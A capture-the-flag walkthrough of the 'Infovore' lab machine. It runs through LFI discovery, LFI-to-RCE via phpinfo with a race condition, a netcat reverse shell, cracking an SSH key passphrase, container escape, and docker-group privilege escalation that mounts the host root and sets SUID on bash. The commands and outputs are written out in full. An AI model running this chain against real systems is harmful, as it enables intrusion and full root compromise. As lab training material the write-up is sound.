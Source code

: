 Skills:

- Web Enumeration
- LFI (Local File Inclusion)
- Abusing file_uploads visible in info.php (LFI2RCE via phpinfo() + Race Condition)
- System Enumeration (Linpeas)
- Cracking Protected Private SSH Key
- Abusing ssh key pair trust to escape the container
- Abusing docker group [Privilege Escalation]

Only port 80 is open
``` 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Include me ...

```

Nmap showed me --> http-title: Include me ... This made me think of a local file inclusion vulnerability, so I'm looking for that immediately

I fuzz the site looking for a file that would give me the path to exploit the LFI vulnerability
```
❯ gobuster dir -u http://192.168.0.107/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.107/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4743]
/img                  (Status: 301) [Size: 312] [--> http://192.168.0.107/img/]
/info.php             (Status: 200) [Size: 69776]
/css                  (Status: 301) [Size: 312] [--> http://192.168.0.107/css/]
/vendor               (Status: 301) [Size: 315] [--> http://192.168.0.107/vendor/]

``` 

Gobuster found info.php file, which contains the information about the PHP configuration on the web server.
I then  fuzzed the site to identify the correct parameter for achieving local file inclusion

```
❯ wfuzz --hc=404 --hl=136 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 'http://192.168.0.107/index.php/?FUZZ=/etc/passwd'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.107/index.php/?FUZZ=/etc/passwd
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000025356:   200        26 L     33 W       1006 Ch     "filename"     

```

I found the vulnerable parameter, "filename", but I could only view the /etc/passwd, so I checked the php info, the site has the file_uploads enable, I could abuse this.
I checked on the hacktricks web how to exploit this https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo
Here is a python script --> https://github.com/mikaelkall/HackingAllTheThings/blob/master/lfi/phpinfolfi.py
```
❯ python2.7 phpinfolfi.py 192.168.0.107 80
Don't forget to modify the LFI URL
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 111437
Spawning worker pool (10)...
  24 /  1000
Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...

------------------------
❯ nc -nlvp 1234
Connection from 192.168.0.107:59197
www-data@e71b67461f6c:/var/www/html$ whoami
whoami
www-data
```

In this way I gain access to the system, However, I realized I was in a container. To escalate my privileges, I used Linpeas to enumerate the system and found an .oldkeys.tgz file containing two encrypted SSH private keys.

```
#checking host port
www-data@e71b67461f6c:/tmp$ echo '' > /dev/tcp/192.168.150.1/22

#the host has port 22 open (ssh) so I can gain access through ssh service
#crack the protected id_rsa on my machine
❯ ssh2john id_rsa > hash
❯ john --wordlist=~/Documents/wordlist/rockyou.txt hash
choclate93       (id_rsa)
```

The password for "id_rsa" is the same as the root user's in the container, and there's an ".ssh" folder in the root directory containing "id_rsa." This means I can break out of the container using this key with the password I mentioned earlier.
```
root@e71b67461f6c:~/.ssh# ssh -i id_rsa admin@192.168.150.1
Enter passphrase for key 'id_rsa': choclate93 
```

As the admin now, this user is in the docker group, so I can list the docker images.
```
admin@infovore:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                NAMES
e71b67461f6c        theart42/infovore   "docker-php-entrypoi…"   3 years ago         Up 3 hours          0.0.0.0:80->80/tcp   infovore
admin@infovore:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
theart42/infovore   latest              40de379c5116        3 years ago         428MB
```

I can totally exploit this because the admin user has Docker privileges.
```
admin@infovore:~$ docker run -dit -v /:/mnt/root theart42/infovore
1f479322b6c7d68fa9fff448e91316d6e602778cbe28956530d3ab74346d34ce
admin@infovore:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                NAMES
1f479322b6c7        theart42/infovore   "docker-php-entrypoi…"   3 seconds ago       Up 2 seconds        80/tcp               nostalgic_sammet
e71b67461f6c        theart42/infovore   "docker-php-entrypoi…"   3 years ago         Up 3 hours          0.0.0.0:80->80/tcp   infovore

admin@infovore:~$ docker exec -it nostalgic_sammet bash
root@1f479322b6c7:/var/www/html# whoami
root
root@1f479322b6c7:/var/www/html# 

root@1f479322b6c7:/var/www/html# cd /mnt
root@1f479322b6c7:/mnt# ls
root
root@1f479322b6c7:/mnt# cd root
root@1f479322b6c7:/mnt/root# ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	 opt  root  sbin  sys	usr  vmlinuz
root@1f479322b6c7:/mnt/root# cd root
root@1f479322b6c7:/mnt/root/root# ls
root.txt
root@1f479322b6c7:/mnt/root/root# cat root.txt 
 _____                             _       _                                              
/  __ \                           | |     | |                                             
| /  \/ ___  _ __   __ _ _ __ __ _| |_ ___| |                                             
| |    / _ \| '_ \ / _` | '__/ _` | __/ __| |                                             
| \__/\ (_) | | | | (_| | | | (_| | |_\__ \_|                                             
 \____/\___/|_| |_|\__, |_|  \__,_|\__|___(_)                                             
                    __/ |                                                                 
                   |___/                                                                  
__   __                                         _   _        __                         _ 
\ \ / /                                        | | (_)      / _|                       | |
 \ V /___  _   _   _ ____      ___ __   ___  __| |  _ _ __ | |_ _____   _____  _ __ ___| |
  \ // _ \| | | | | '_ \ \ /\ / / '_ \ / _ \/ _` | | | '_ \|  _/ _ \ \ / / _ \| '__/ _ \ |
  | | (_) | |_| | | |_) \ V  V /| | | |  __/ (_| | | | | | | || (_) \ V / (_) | | |  __/_|
  \_/\___/ \__,_| | .__/ \_/\_/ |_| |_|\___|\__,_| |_|_| |_|_| \___/ \_/ \___/|_|  \___(_)
                  | |                                                                     
                  |_|                                                                     
 
FLAG{And_now_You_are_done}

@theart42 and @4nqr34z
 
root@1f479322b6c7:~# cd /mnt/root
root@1f479322b6c7:/mnt/root# cd bin
root@1f479322b6c7:/mnt/root/bin# chmod u+s bash
root@1f479322b6c7:/mnt/root/bin# exit
exit
admin@infovore:~$ bash -p
bash-4.3# whoami
root
bash-4.3# 
```

Finish!